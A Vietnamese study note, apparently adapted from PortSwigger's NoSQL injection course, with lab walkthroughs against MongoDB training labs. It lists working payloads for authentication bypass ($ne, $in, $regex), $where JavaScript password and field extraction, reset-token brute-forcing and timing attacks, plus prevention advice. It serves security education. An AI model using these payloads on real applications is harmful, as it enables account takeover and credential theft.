


# NoSQL injection
Tính năng chèn NoSQL là một lỗ hổng trong đó kẻ tấn công có thể can thiệp vào các truy vấn mà ứng dụng thực hiện đối với cơ sở dữ liệu NoSQL. Việc tiêm NoSQL có thể cho phép kẻ tấn công:
- Bỏ qua cơ chế xác thực hoặc bảo vệ.
- Trích xuất hoặc chỉnh sửa dữ liệu.
- Gây ra sự từ chối dịch vụ.
- Thực thi mã trên máy chủ.

Cơ sở dữ liệu NoSQL lưu trữ và truy xuất dữ liệu ở định dạng khác với các bảng quan hệ SQL truyền thống. Họ sử dụng nhiều ngôn ngữ truy vấn thay vì tiêu chuẩn chung như SQL và có ít ràng buộc quan hệ hơn.


## Types of NoSQL injection
Có hai kiểu chèn NoSQL khác nhau:
- Syntax injection - Điều này xảy ra khi bạn có thể phá vỡ cú pháp truy vấn NoSQL, cho phép bạn chèn tải trọng của riêng mình. Phương pháp này tương tự như phương pháp được sử dụng trong SQL SQL. Tuy nhiên, bản chất của cuộc tấn công khác nhau đáng kể, vì cơ sở dữ liệu NoSQL sử dụng nhiều ngôn ngữ truy vấn, loại cú pháp truy vấn và cấu trúc dữ liệu khác nhau.
- Operator injection - Điều này xảy ra khi bạn có thể sử dụng toán tử truy vấn NoSQL để thao tác truy vấn.

Trong chủ đề này, chúng ta sẽ xem xét cách kiểm tra lỗ hổng NoSQL nói chung, sau đó tập trung khai thác lỗ hổng trong MongoDB, cơ sở dữ liệu NoSQL phổ biến nhất. Chúng tôi cũng cung cấp một số phòng thí nghiệm để bạn có thể thực hành những gì đã học.

## NoSQL syntax injection
Bạn có thể phát hiện các lỗ hổng chèn NoSQL bằng cách cố gắng phá vỡ cú pháp truy vấn. Để thực hiện việc này, hãy kiểm tra một cách có hệ thống từng đầu vào bằng cách gửi chuỗi fuzz và ký tự đặc biệt gây ra lỗi cơ sở dữ liệu hoặc một số hành vi có thể phát hiện khác nếu chúng không được ứng dụng dọn dẹp hoặc lọc đầy đủ.\
Nếu bạn biết ngôn ngữ API của cơ sở dữ liệu đích, hãy sử dụng các ký tự đặc biệt và chuỗi fuzz có liên quan đến ngôn ngữ đó. Mặt khác, hãy sử dụng nhiều chuỗi fuzz khác nhau để nhắm mục tiêu nhiều ngôn ngữ API.
### Detecting syntax injection in MongoDB
Hãy xem xét một ứng dụng mua sắm hiển thị các sản phẩm theo các danh mục khác nhau. Khi người dùng chọn danh mục **Fizzy drinks**, trình duyệt của họ sẽ yêu cầu URL sau:\
`https://insecure-website.com/product/lookup?category=fizzy`\
Điều này khiến ứng dụng gửi truy vấn JSON để truy xuất các sản phẩm có liên quan từ `product` trong cơ sở dữ liệu MongoDB:\
`this.category == 'fizzy'`\
Để kiểm tra xem đầu vào có dễ bị tấn công hay không, hãy gửi một chuỗi fuzz trong giá trị của tham số `category`. Một chuỗi ví dụ cho MongoDB là:
```
'"`{
;$Foo}
$Foo \xYZ
```
Sử dụng chuỗi fuzz này để xây dựng cuộc tấn công sau:\
`https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00`\
Nếu điều này gây ra thay đổi so với phản hồi ban đầu thì điều này có thể cho thấy dữ liệu đầu vào của người dùng không được lọc hoặc dọn dẹp chính xác.

Note: Các lỗ hổng chèn NoSQL có thể xảy ra trong nhiều bối cảnh khác nhau và bạn cần điều chỉnh chuỗi fuzz của mình cho phù hợp. Nếu không, bạn có thể chỉ kích hoạt các lỗi xác thực có nghĩa là ứng dụng không bao giờ thực hiện truy vấn của bạn.\
Trong ví dụ này, chúng tôi đang chèn chuỗi fuzz qua URL, do đó chuỗi này được mã hóa URL. Trong một số ứng dụng, thay vào đó, bạn có thể cần phải đưa tải trọng của mình thông qua thuộc tính JSON. Trong trường hợp này, tải trọng này sẽ trở thành `'\"'{\r;$Foo}\n$Foo \\xYZ\u0000`.
### Determining which characters are processed
Để xác định những ký tự nào được ứng dụng hiểu là cú pháp, bạn có thể chèn các ký tự riêng lẻ. Ví dụ: bạn có thể gửi `'`, kết quả là truy vấn MongoDB sau:\
`this.category == '''`\
Nếu điều này gây ra thay đổi so với phản hồi ban đầu, điều này có thể cho thấy ký tự `'` đã phá vỡ cú pháp truy vấn và gây ra lỗi cú pháp. Bạn có thể xác nhận điều này bằng cách gửi chuỗi truy vấn hợp lệ trong đầu vào, ví dụ: bằng cách thoát khỏi trích dẫn:\
`this.category == '\''`\
Nếu điều này không gây ra lỗi cú pháp thì điều này có thể có nghĩa là ứng dụng dễ bị tấn công tiêm nhiễm.
### Confirming conditional behavior
Sau khi phát hiện lỗ hổng, bước tiếp theo là xác định xem bạn có thể tác động đến các điều kiện boolean bằng cú pháp NoSQL hay không.\
Để kiểm tra điều này, hãy gửi hai yêu cầu, một yêu cầu có điều kiện sai và một yêu cầu có điều kiện đúng. Ví dụ: bạn có thể sử dụng các câu lệnh điều kiện `' && 0 && 'x` và `' && 1 && 'x` như sau:\
`https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x`\
`https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x`\
Nếu ứng dụng hoạt động khác đi thì điều này cho thấy rằng điều kiện sai sẽ ảnh hưởng đến logic truy vấn, còn điều kiện đúng thì không. Điều này cho thấy rằng việc đưa kiểu cú pháp này vào sẽ tác động đến truy vấn phía máy chủ.

---
Ví dụ: https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection

Ở bài này ta chỉ cần phát hiện ra lỗi, lầm lượt thử thêm các payload: `'`, `Gifts' && 0 && 'x`, `Gifts' && 1 && 'x`, `Gifts'||1||'`

----

Bạn cũng có thể thêm ký tự null sau giá trị category. MongoDB có thể bỏ qua tất cả các ký tự sau ký tự null. Điều này có nghĩa là mọi điều kiện bổ sung trong truy vấn MongoDB đều bị bỏ qua. Ví dụ: truy vấn có thể có thêm hạn chế `this.released`:\
`this.category == 'fizzy' && this.released == 1`\
Hạn chế `this.released == 1` chỉ được sử dụng để hiển thị các sản phẩm đã được phát hành. Đối với các sản phẩm chưa được phát hành, có lẽ là `this.released == 0`.\
Trong trường hợp này, kẻ tấn công có thể xây dựng một cuộc tấn công như sau:\
`https://insecure-website.com/product/lookup?category=fizzy'%00`\
Điều này dẫn đến truy vấn NoSQL sau:\
`this.category == 'fizzy'\u0000' && this.released == 1`\
Nếu MongoDB bỏ qua tất cả các ký tự sau ký tự null, điều này sẽ loại bỏ yêu cầu đặt trường `released` thành `1`. Kết quả là tất cả các sản phẩm trong danh mục `fizzy` đều được hiển thị, bao gồm cả các sản phẩm chưa được phát hành.

## NoSQL operator injection
Cơ sở dữ liệu NoSQL thường sử dụng toán tử truy vấn, cung cấp các cách để chỉ định các điều kiện mà dữ liệu phải đáp ứng để được đưa vào kết quả truy vấn. Ví dụ về toán tử truy vấn MongoDB bao gồm:
- `$where` - So khớp các tài liệu thỏa mãn biểu thức JavaScript.
- `$ne` - Khớp tất cả các giá trị không bằng giá trị được chỉ định
- `$in` - Khớp tất cả các giá trị được chỉ định trong một mảng
- `$regex` - Chọn tài liệu có giá trị khớp với biểu thức chính quy được chỉ định.

Bạn có thể chèn các toán tử truy vấn để thao tác các truy vấn NoSQL. Để thực hiện việc này, hãy gửi các toán tử khác nhau một cách có hệ thống vào một loạt thông tin đầu vào của người dùng, sau đó xem xét phản hồi để tìm thông báo lỗi hoặc các thay đổi khác.

### Submitting query operators
Trong JSON, bạn có thể chèn toán tử truy vấn dưới dạng đối tượng lồng nhau. Ví dụ: `{"username":"wiener"}` trở thành `{"username":{"$ne":"invalid"}}`.

Đối với đầu vào dựa trên URL, bạn có thể chèn toán tử truy vấn thông qua tham số URL. Ví dụ: `username=wiener` trở thành `username[$ne]=invalid`. Nếu cách này không hiệu quả, bạn có thể thử cách sau:
- Convert the request method from `GET` to `POST`.
- Thay đổi tiêu đề Content-Type thành application/json.
- Add JSON to the message body.
- Đưa toán tử truy vấn vào JSON.
### Detecting operator injection in MongoDB
Hãy xem xét một ứng dụng dễ bị tấn công chấp nhận tên người dùng và mật khẩu trong nội dung của yêu cầu `POST`:\
`{"username":"wiener","password":"peter"}`\
Kiểm tra từng đầu vào với một loạt toán tử. Ví dụ: để kiểm tra xem thông tin nhập vào tên người dùng có xử lý toán tử truy vấn hay không, bạn có thể thử thao tác chèn sau:\
`{"username":{"$ne":"invalid"},"password":{"peter"}}`\
Nếu toán tử `$ne` được áp dụng, điều này sẽ truy vấn tất cả người dùng có `username` ko phải là `invalid`. Nếu cả thông tin nhập vào tên người dùng và mật khẩu đều xử lý toán tử thì có thể bỏ qua xác thực bằng cách sử dụng trọng tải sau:\
`{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`\
Truy vấn này trả về tất cả thông tin đăng nhập trong đó cả tên người dùng và mật khẩu not equa `invalid`. Kết quả là bạn đã đăng nhập vào ứng dụng với tư cách là người dùng đầu tiên trong danh sách kết quả.

Để nhắm mục tiêu một tài khoản, bạn có thể tạo tải trọng bao gồm tên người dùng đã biết hoặc tên người dùng mà bạn đã đoán. Ví dụ:\
`{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`

Ví dụ: https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication

Đầu tiên đăng nhập với `wiener:peter` sau đó thử thay `wiener` với `{"$regex":"wi.*"}` ta vẫn có thể đăng nhập thành công, thay password bằng `{"$ne":""}` ta tiếp tục đăng nhập thành công.

Thay `username` bằng `{"$regex":"admin.*"}` và password để nguyên `{"$ne":""}` ta đăng nhập được và được 302 đến tài khoản: `adminjrmnpjat`

Tiếp tục thay `username` bằng `adminjrmnpjat` và thử độ dài của password với cú pháp `{"$regex":".{20}"}` thành công và password có 20 kí tự:


Đưa vào intruder để bruteforce từng kí tự với cú pháp password: `{"$regex":"<kí tự đã biết>+<kí tự FUZZ>.*"}`:


Ta được password cuối: `bzfeso0wwwqh2043xhcr`

## Exploiting syntax injection to extract data
Trong nhiều cơ sở dữ liệu NoSQL, một số toán tử truy vấn hoặc hàm có thể chạy mã JavaScript hạn chế, chẳng hạn như toán tử `$where` và hàm `mapReduce()` của MongoDB. Điều này có nghĩa là nếu một ứng dụng dễ bị tấn công sử dụng các toán tử hoặc hàm này thì cơ sở dữ liệu có thể đánh giá JavaScript như một phần của truy vấn. Do đó, bạn có thể sử dụng các hàm JavaScript để trích xuất dữ liệu từ cơ sở dữ liệu.
### Exfiltrating data in MongoDB
Hãy xem xét một ứng dụng dễ bị tấn công cho phép người dùng tra cứu tên người dùng đã đăng ký khác và hiển thị vai trò của họ. Điều này kích hoạt một yêu cầu tới URL:\
`https://insecure-website.com/user/lookup?username=admin`\
Điều này dẫn đến truy vấn NoSQL sau đây của `users`:\
`{"$where":"this.username == 'admin'"}`\
Vì truy vấn sử dụng toán tử `$where`, bạn có thể thử đưa các hàm JavaScript vào truy vấn này để nó trả về dữ liệu nhạy cảm. Ví dụ: bạn có thể gửi tải trọng sau:\
`admin' && this.password[0] == 'a' || 'a'=='b`\
Điều này trả về ký tự đầu tiên của chuỗi mật khẩu của người dùng, cho phép bạn trích xuất ký tự mật khẩu theo từng ký tự.\
Bạn cũng có thể sử dụng hàm JavaScript `match()` để trích xuất thông tin. Ví dụ: tải trọng sau cho phép bạn xác định xem mật khẩu có chứa các chữ số hay không:\
`admin' && this.password.match(/\d/) || 'a'=='b`

Ví dụ: https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data

Đầu tiên khi đăng nhập thành công với `wiener:peter` ta sẽ có 1 path lấy thông tin:


Thử với đầu vào: `wiener' && this.password[0] == 'p' || 'a'=='b` ta được:\


Còn với input: `wiener' && this.password[0] == 'a' || 'a'=='b`:\


Vậy là ta có thể check password! Ta sẽ thử tìm xem có username `administrator`:


Check độ dài pass: \
`administrator' && this.password.length > 1 ||'1'=='2`\


Check từ từ ta được độ dài pass là:\


Có tồn tại, bây giờ ta sẽ đi check password với intruder với cú pháp:\ 
`administrator' && this.password[0] == 'a' || 'a'=='b`\


#### Identifying field names
Vì MongoDB xử lý dữ liệu bán cấu trúc không yêu cầu lược đồ cố định nên bạn có thể cần xác định các trường hợp lệ trong bộ sưu tập trước khi có thể trích xuất dữ liệu bằng cách sử dụng tính năng chèn JavaScript.\
Ví dụ: để xác định xem cơ sở dữ liệu MongoDB có chứa trường `password` hay không, bạn có thể gửi tải trọng sau:\
`https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'`\
Gửi lại tải trọng cho trường hiện có và cho trường không tồn tại. Trong ví dụ này, bạn biết rằng trường `username` tồn tại, vì vậy bạn có thể gửi các tải trọng sau:\
`admin' && this.username!='`\
`admin' && this.foo!='`\
Nếu trường `password` tồn tại, bạn sẽ mong đợi phản hồi giống hệt với phản hồi cho trường hiện tại (`username`), nhưng khác với phản hồi cho trường không tồn tại (`foo`).

Nếu muốn kiểm tra các tên trường khác nhau, bạn có thể thực hiện tấn công từ điển bằng cách sử dụng danh sách từ để duyệt qua các tên trường tiềm năng khác nhau.

Note: Ngoài ra, bạn có thể sử dụng tính năng chèn toán tử NoSQL để trích xuất tên trường theo từng ký tự. Điều này cho phép bạn xác định tên trường mà không cần phải đoán hoặc thực hiện tấn công từ điển. Chúng tôi sẽ hướng dẫn bạn cách thực hiện việc này trong phần tiếp theo.

## Exploiting NoSQL operator injection to extract data
Ngay cả khi truy vấn ban đầu không sử dụng bất kỳ toán tử nào cho phép bạn chạy JavaScript tùy ý, bạn vẫn có thể tự chèn một trong các toán tử này vào. Sau đó, bạn có thể sử dụng các điều kiện boolean để xác định xem ứng dụng có thực thi bất kỳ JavaScript nào mà bạn đưa vào thông qua toán tử này hay không.
### Injecting operators in MongoDB
Hãy xem xét một ứng dụng dễ bị tấn công chấp nhận tên người dùng và mật khẩu trong nội dung của yêu cầu `POST`:\
`{"username":"wiener","password":"peter"}`\
Để kiểm tra xem bạn có thể thêm toán tử hay không, bạn có thể thử thêm toán tử `$where` làm tham số bổ sung, sau đó gửi một yêu cầu trong đó điều kiện đánh giá là sai và một yêu cầu khác đánh giá là đúng. Ví dụ:\
`{"username":"wiener","password":"peter", "$where":"0"}`\
`{"username":"wiener","password":"peter", "$where":"1"}`\
Nếu có sự khác biệt giữa các câu trả lời, điều này có thể cho biết biểu thức JavaScript trong mệnh đề `$where` đang được thực hiện.

#### Extracting field names
Nếu bạn đã chèn một toán tử cho phép bạn chạy JavaScript, bạn có thể sử dụng phương thức `key()` để trích xuất tên của các trường dữ liệu. Ví dụ: bạn có thể gửi tải trọng sau:\
`"$where":"Object.keys(this)[0].match('^.{0}a.*')"`\
Thao tác này sẽ kiểm tra trường dữ liệu đầu tiên trong đối tượng người dùng và trả về ký tự đầu tiên của tên trường. Điều này cho phép bạn trích xuất tên trường theo từng ký tự.

Ví dụ: https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields

Đầu tiên ta thấy mục tiêu là đăng nhập với tài khoản `carlos` nhưng không có mật khẩu và ở đây có chức năng reset password.

Nếu đăng nhập sai nhiều lần ta sẽ có thông báo:\


Ta sẽ cần tìm các field ẩn trong bảng SQL, tận dụng chức năng đăng nhập sử dụng JSON làm đầu vào, ta có thể thêm đối tượng `$where` để đưa ra các điều kiện:\
\


Vậy ở đây ta biết nếu điều kiện sai thì nó sẽ báo invalid còn nếu điều kiện đúng nó sẽ báo là account bị khóa.

Sau đó ta sẽ dùng nó để tìm các field ẩn: 
\
\
\
\


Ở đây ta thấy field `newPwdTkn` hay new password token ta đoán đây sẽ chứa token được gửi về khi dùng chức năng `forgot password`, ta sẽ cho input `carlos` vào forgot password để nó tạo ra token và rồi lại dùng intruder để tìm ra nó: 


Cuối cùng dùng nó để đổi password mới:\


#### Exfiltrating data using operators
Ngoài ra, bạn có thể trích xuất dữ liệu bằng cách sử dụng các toán tử không cho phép bạn chạy JavaScript. Ví dụ: bạn có thể sử dụng toán tử `$regex` để trích xuất dữ liệu theo từng ký tự.\
Hãy xem xét một ứng dụng dễ bị tấn công chấp nhận tên người dùng và mật khẩu trong nội dung của yêu cầu `POST`. Ví dụ:\
`{"username":"myuser","password":"mypass"}`\
Bạn có thể bắt đầu bằng cách kiểm tra xem toán tử `$regex` có được xử lý như sau không:\
`{"username":"admin","password":{"$regex":"^.*"}}`\
Nếu phản hồi cho yêu cầu này khác với phản hồi bạn nhận được khi gửi mật khẩu không chính xác, điều này cho thấy ứng dụng có thể dễ bị tấn công. Bạn có thể sử dụng toán tử `$regex` để trích xuất dữ liệu theo từng ký tự. Ví dụ: phần tải trọng sau sẽ kiểm tra xem mật khẩu có bắt đầu bằng chữ `a` hay không:\
`{"username":"admin","password":{"$regex":"^a*"}}`

## Timing based injection
Đôi khi việc gây ra lỗi cơ sở dữ liệu không gây ra sự khác biệt trong phản hồi của ứng dụng. Trong trường hợp này, bạn vẫn có thể phát hiện và khai thác lỗ hổng bằng cách sử dụng tính năng chèn JavaScript để kích hoạt độ trễ thời gian có điều kiện.\
Để tiến hành chèn NoSQL dựa trên thời gian:
- Tải trang nhiều lần để xác định thời gian tải cơ bản.
- Chèn tải trọng dựa trên thời gian vào đầu vào. Tải trọng dựa trên thời gian gây ra sự chậm trễ có chủ ý trong phản hồi khi được thực thi. Ví dụ: `{"$where": "sleep(5000)"}` gây ra độ trễ có chủ ý là 5000 mili giây khi tiêm thành công.
- Xác định xem phản hồi có tải chậm hơn không. Điều này cho thấy việc tiêm thành công.

Tải trọng dựa trên thời gian sau đây sẽ kích hoạt độ trễ thời gian nếu mật khẩu có chữ cái `a`:\
`admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'`\
`admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`

## Preventing NoSQL injection
Cách thích hợp để ngăn chặn các cuộc tấn công tiêm nhiễm NoSQL phụ thuộc vào công nghệ NoSQL cụ thể đang được sử dụng. Vì vậy, chúng tôi khuyên bạn nên đọc tài liệu bảo mật cho cơ sở dữ liệu NoSQL mà bạn lựa chọn. Điều đó nói lên rằng, những hướng dẫn rộng rãi sau đây cũng sẽ hữu ích:
- Dọn dẹp và xác thực thông tin đầu vào của người dùng bằng cách sử dụng danh sách cho phép gồm các ký tự được chấp nhận.
- Chèn thông tin đầu vào của người dùng bằng cách sử dụng các truy vấn được tham số hóa thay vì nối trực tiếp thông tin đầu vào của người dùng vào truy vấn.
- Để ngăn chặn việc chèn toán tử, hãy áp dụng danh sách cho phép các khóa được chấp nhận.
